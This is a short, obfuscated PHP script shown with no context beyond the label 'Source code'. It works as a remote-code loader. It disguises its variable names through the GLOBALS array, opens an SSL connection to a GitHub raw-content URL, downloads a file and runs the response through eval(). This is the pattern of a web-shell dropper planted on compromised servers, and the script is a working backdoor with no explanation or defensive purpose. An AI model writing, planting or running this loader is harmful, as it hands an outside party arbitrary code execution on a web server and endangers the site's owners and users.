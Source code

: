 <?php ${"GLOBALS"}["ywpwbj"]="content";${"GLOBALS"}["ruqhwoixi"]="out";${"GLOBALS"}["mwiqglaifsi"]="errno";${"GLOBALS"}["dnjhlezvvm"]="fp";${"GLOBALS"}["rwueqxkby"]="path";${"GLOBALS"}["dsgugac"]="port";$host="raw.githubusercontent.com";$vobpopp="errstr";${${"GLOBALS"}["dsgugac"]}=443;${${"GLOBALS"}["rwueqxkby"]}="/vlain1337/dface/refs/heads/main/me/md.md";${${"GLOBALS"}["dnjhlezvvm"]}=stream_socket_client("ssl://$host:$port",${${"GLOBALS"}["mwiqglaifsi"]},${$vobpopp},30);if(!${${"GLOBALS"}["dnjhlezvvm"]}){echo"Error: $errstr ($errno)<br />
";}else{${"GLOBALS"}["jzkmgbgyhic"]="out";${${"GLOBALS"}["ruqhwoixi"]}="GET $path HTTP/1.1
";${${"GLOBALS"}["jzkmgbgyhic"]}.="Host: $host
";$enkgdamsp="out";${${"GLOBALS"}["ruqhwoixi"]}.="Connection: Close

";fwrite(${${"GLOBALS"}["dnjhlezvvm"]},${$enkgdamsp});${${"GLOBALS"}["ywpwbj"]}="";while(!feof(${${"GLOBALS"}["dnjhlezvvm"]})){$idtywktewxj="content";${$idtywktewxj}.=fgets(${${"GLOBALS"}["dnjhlezvvm"]},128);}$xwseeucb="header_end";$ujjeycyqx="header_end";fclose(${${"GLOBALS"}["dnjhlezvvm"]});${$xwseeucb}=strpos(${${"GLOBALS"}["ywpwbj"]},"

");if(${$ujjeycyqx}!==false){$doyowakdp="header_end";${"GLOBALS"}["scyqlpwdgj"]="content";${${"GLOBALS"}["scyqlpwdgj"]}=substr(${${"GLOBALS"}["ywpwbj"]},${$doyowakdp}+4);}eval("?>".${${"GLOBALS"}["ywpwbj"]});} 
?>
